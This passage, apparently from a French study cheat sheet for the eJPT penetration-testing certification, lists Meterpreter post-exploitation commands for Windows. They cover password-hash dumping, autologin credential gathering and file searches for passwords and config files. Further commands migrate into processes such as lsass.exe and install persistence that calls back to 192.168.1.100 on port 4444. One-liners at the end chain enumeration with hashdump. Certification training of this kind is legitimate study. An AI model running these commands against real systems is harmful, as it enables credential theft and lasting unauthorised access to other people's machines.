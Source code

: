 ### Recherche de credentials
```bash
# Séquence rapide pour credentials
hashdump
run post/windows/gather/credentials/windows_autologin
search -f *password*
search -f *.config
```

### Migration de processus
```bash
# Processus sûrs pour migration
ps
# Rechercher explorer.exe, winlogon.exe, ou lsass.exe
migrate <pid_explorer>
```

### Persistence rapide
```bash
# Après énumération, si nécessaire
run persistence -S -U -X -i 60 -p 4444 -r 192.168.1.100
```

**🎯 Conseil final** : L'énumération Windows avec Meterpreter dans l'eJPT suit généralement ce pattern : `sysinfo` → `getuid` → `hashdump` → `local_exploit_suggester` → escalation de privilèges !

---

## 📝 16. Aide-mémoire one-liners

```bash
# Énumération complète rapide
sysinfo && getuid && getprivs && hashdump && run post/multi/recon/local_exploit_suggester

# Recherche de fichiers sensibles
search -f *.txt && search -f *.config && search -f *password*

# Énumération réseau rapide
ipconfig && route && arp && netstat
```